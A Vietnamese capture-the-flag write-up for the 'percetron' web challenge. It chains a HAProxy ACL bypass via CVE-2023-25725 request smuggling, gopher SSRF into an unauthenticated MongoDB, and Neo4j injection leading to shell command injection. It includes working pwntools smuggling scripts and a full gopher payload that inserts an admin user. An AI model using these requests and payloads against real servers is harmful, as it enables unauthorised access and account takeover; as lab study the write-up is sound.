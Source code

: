 # The challenge
name: percetron

difficulty: hard
## Solution
Bài này mình nắm bắt cách làm từ rất sớm, 90% thời gian làm còn lại là mình tìm cách để bypass đến route `/healthcheck-dev` do ACl của HAproxy chặn. 

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/2594b21d-bd1a-4084-ab04-8cf8d805e5ff)

Hướng làm sẽ như sau, đầu tiên bằng cách nào đó bypass ACL để reach endpoint `/healthcheck-dev` nhằm thực hiện SSRF đến mongodb bằng protocol `gopher`

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/046ae722-d900-4b9f-9b87-9e54bd405145)

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/a684e1ca-84e4-4fac-9203-c411ab839bb2)

Từ đó ta tạo được một account admin, sau đó lợi dụng Neo4j injection tại `/panel/management/addcert` để control filename của cert được add

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/74e9df2a-1b3b-4a70-b8de-7ee4e29c1389)

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/51a595b1-b72d-4fce-88d4-b96544de8a2c)

Khi đó tại endpoint `/panel/management/dl-certs` ta có thể trigger RCE vì khi trace vào method `compress` của thư viện `@steezcram/sevenzip` ta sẽ thấy rằng filename được truyền vào `execFile` với `shell: true`.

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/8e0460ac-efab-4814-aaee-3d4f286df268)

Quan trọng nhất ở bài này sẽ là bước bypass ACL và SSRF lên mongodb
## ACL bypass with `CVE-2023-25725`
CVE này mình đã chú ý đến nó, tuy nhiên khi thử nghiệm mình lại chưa thể lead nó ra HTTP smuggling được. Lỗ hổng của HAProxy là HAProxy sẽ không forward các header nằm phía sau một empty header
Patch:

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/57ba9eb3-a8a4-4630-ba0a-3e823b6b412d)

Vậy thì ta có thể để một Content-Length phía sau một empty header để HAproxy không forward nó về backend => request sẽ không có body và phần body sẽ được xem là request thứ 2, thử kiểm chứng giả thuyết:
```py
from pwn import *

conn = remote("localhost", 1337)

conn.send("""GET /test HTTP/1.1
Host: localhost:1337
:x
Content-Length: 250

GET /healthcheck-dev HTTP/1.1
Host: localhost:1337
Connection: keep-alive
Content-Length: 0
""".replace("\n", "\r\n").encode() + b"\r\n"*50)

conn.interactive()

```
Ở phía server mình dùng netcat để debug

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/dcc0572b-1e51-4a69-ab29-e59a67792ced)

Như bạn thấy, vì không có Content-Length khi forward nên HAProxy đã forward một transfer-encoding để thay thế và biến response thành một chunk => tạch, đây chính là thứ làm mình nghĩ rằng bug này không thể lead ra HTTP smuggling được, tuy nhiên nếu ta đổi version HTTP sử dụng thành 1.0 hoặc 0.9:

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/c24aea9e-b26d-431c-a9d5-e0618650f4c5)

Lần này thì Transfer-Encoding lại không được thêm vào nữa, tại sao lại như thế? 

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/47042670-deb7-44ec-ab30-66ef309441d9)

## H1 decoder
Cùng phân tích patch của HAProxy: https://git.haproxy.org/?p=haproxy-2.7.git;a=commitdiff;h=a0e561ad7f29ed50c473f5a9da664267b60d1112

Ta thấy đầu tiên họ sẽ reject một message có empty header name 

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/cfd3bd41-a4f1-4c9a-84e2-08f13f97c949)

Ngoài ra tại file `h1.c` sẽ thực hiện parse header thành một header list, entry cuối cùng của list sẽ là một entry với empty header name, giống như việc một string sẽ được terminate bằng null byte vậy, việc inject một header có empty header name giống như việc null byte injection đã từng xảy ra trong các phiên bản PHP cũ vậy. Bằng việc inject vào một empty header ta có thể truncate header list và bỏ qua các header còn lại, đó là bản chất của lỗ hổng này. 

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/355fa977-2db7-403f-8650-58f4cb5fdafe)

Vấn đề khi escalate lỗ hổng lên HTTP smuggling đó là khi HTTP sử dụng version 1.1, nếu header Content-Length không có trong header list thì một header `transfer-encoding` sẽ được thêm vào và body sẽ được chuyển thành một chunk

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/d43259fa-4e00-4d30-a2df-bd87be20f121)

Để giải quyết vấn đề này ta chỉ cần down version HTTP sử dụng xuống thành 1.0 hoặc 0.9

```
from pwn import *

conn = remote("localhost", 1337)

conn.send("""GET /test HTTP/1.0
Host: localhost:1337
:x
Content-Length: 250

GET /healthcheck-dev HTTP/1.0
Host: localhost:1337
Connection: keep-alive
Content-Length: 0
""".replace("\n", "\r\n").encode() + b"\r\n"*50)

conn.interactive()
```

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/93e495cf-0e78-468d-9ad5-f769127ecbdd)

Tại sao việc down HTTP version từ 1.1 xuống 1.0 hoặc 0.9 lại khiến HAProxy không convert HTTP message sang format chunked nữa? Đơn giản là vì Transfer-Encoding được support từ HTTP 1.1 trở đi, HAProxy đã implement đúng theo RFC.

## Mongodb protocol
Giờ ta đã reach được endpoint SSRF, vậy làm thế nào để SSRF đến mongodb rồi tạo một account? Cách đơn giản sẽ là mở TCPdump hoặc Wireshark để capture lại packet lúc gửi command lên mongodb, vì ta thấy switch `--noauth` được dùng khi chạy mongo service nên ta sẽ chỉ cần 1 request duy nhất, khi mới nghĩ đến idea này mình đã lo rằng có thể mongodb sẽ thực hiện handshake gì đó trước khi bắt đầu truyền data, mình thử dùng mongosh connect đến netcat và nhận thấy nó gửi một núi data đến, may mắn đây chỉ là client hello nhằm mục đích xác nhận rằng bên server có chạy mongodb.

Sau khi dùng TCPdump ta có được một url như bên dưới:
```
gopher://127.0.0.1:27017/_%1F%01%00%00%0C%00%00%00%00%00%00%00%DD%07%00%00%00%00%00%00%00%0A%01%00%00%02insert%00%06%00%00%00users%00%04documents%00%A7%00%00%00%030%00%9F%00%00%00%02username%00%09%00%00%00hehehehe%00%02password%00%3D%00%00%00%242a%2410%24/KdHSYJIHaQTBEJqkQHKeeecndrfl.M99P1KKUQVS3yuE3Xta5DKG%00%02permission%00%0E%00%00%00administrator%00%07_id%00e%F1%BC%DD%A3y%DB~%91%11kG%10__v%00%00%00%00%00%00%00%08ordered%00%01%03lsid%00%1E%00%00%00%05id%00%10%00%00%00%04%D7%13%CCe%A2%60H%26%97_5G%861fb%00%02%24db%00%0A%00%00%00percetron%00%00
```

Tại đây sẽ tạo một account admin với username là `hehehehe` và pass là `password`, phần còn lại thì đơn giản thôi nên các bạn hãy thử tự mình dựng lại bài này và làm nhé.
